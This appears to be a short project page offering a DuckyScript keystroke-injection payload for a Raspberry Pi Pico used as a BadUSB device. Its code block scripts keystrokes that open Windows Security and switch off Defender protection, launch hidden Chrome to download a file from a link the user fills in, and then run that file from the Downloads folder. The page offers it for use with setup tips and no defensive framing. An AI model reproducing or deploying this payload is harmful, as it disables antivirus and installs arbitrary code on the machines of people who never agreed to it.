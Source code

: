 # Download-Execute (MADE IN DUCKYSCRIPT)
Designed For The Raspberry Pi Pico.
Disables Windows Defender And Downloads Files From Google &amp; Executes Them

Make Sure When Putting It In Your Raspberry Pi Pico To Replace The .txt With .dd!
```
DELAY 1000
REM windows security
CTRL ESC
DELAY 600
STRING windows security
DELAY 300
ENTER
DELAY 1000
ENTER
TAB
TAB
TAB
TAB
DELAY 300
ENTER
DELAY 600
SPACE
DELAY 600
LEFT
ENTER
DELAY 300
CTRL ESC
DELAY 300
REM hash
DELAY 300
STRING cmd
DELAY 300
ENTER
DELAY 300
STRING start chrome -w hidden YOUR FILE LINK (WE Recommend using Github Raw.)
DELAY 300
ENTER
DELAY 600
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
ENTER
DELAY 300
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 300
ENTER
DELAY 300
TAB
DELAY 100
ENTER
DELAY 300
GUI r
DELAY 300
STRING cmd
DELAY 300
ENTER
DELAY 300
STRING cd Downloads
DELAY 300
ENTER
DELAY 300
STRING Name Of The File
DELAY 300
ENTER
```

